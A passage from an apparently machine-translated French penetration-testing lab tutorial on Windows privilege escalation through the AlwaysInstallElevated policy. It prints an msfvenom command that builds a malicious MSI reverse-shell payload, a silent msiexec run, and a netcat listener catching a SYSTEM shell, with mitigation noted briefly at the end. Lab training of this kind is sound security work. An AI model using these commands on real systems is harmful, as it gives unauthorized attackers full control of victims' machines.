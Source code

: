 Notre énumération nous montre que la clé `AlwaysInstallElevated` existe, donc la stratégie est bien activée sur le système cible.

#### Génération du package MSI

Nous pouvons exploiter cela en générant un package `MSI` malveillant et en l'exécutant via la ligne de commande pour obtenir un reverse shell avec les privilèges SYSTEM.

Génération du package MSI

```
dsgsec@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

[-] Aucune plate-forme n'a été sélectionnée, en choisissant Msf::Module::Platform::Windows à partir de la charge utile
[-] Aucune arche sélectionnée, sélection de l'arche : x86 à partir de la charge utile
Aucun encodeur spécifié, sortie de données utiles brutes
Taille de la charge utile : 324 octets
Taille finale du fichier msi : 159744 octets

```

#### Exécution du package MSI

Nous pouvons télécharger ce fichier MSI sur notre cible, démarrer un écouteur Netcat et exécuter le fichier à partir de la ligne de commande comme suit :

Exécution du package MSI

```
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart

```

#### Attraper la coquille

Si tout se passe comme prévu, nous recevrons une connexion en tant que `NT AUTHORITY\SYSTEM`.

Attraper la coquille

```
dsgsec@htb[/htb]$ nc -lnvp 9443

écoute sur [tout] 9443 ...
se connecter à [10.10.14.3] depuis (INCONNU) [10.129.43.33] 49720
Microsoft Windows [Version 10.0.18363.592]
(c) Microsoft Corporation 2019. Tous les droits sont réservés.

C:\Windows\system32>whoami

qui suis je
autorité nt\système

```

Ce problème peut être atténué en désactivant les deux paramètres de stratégie de groupe locale mentionnés ci-dessus.

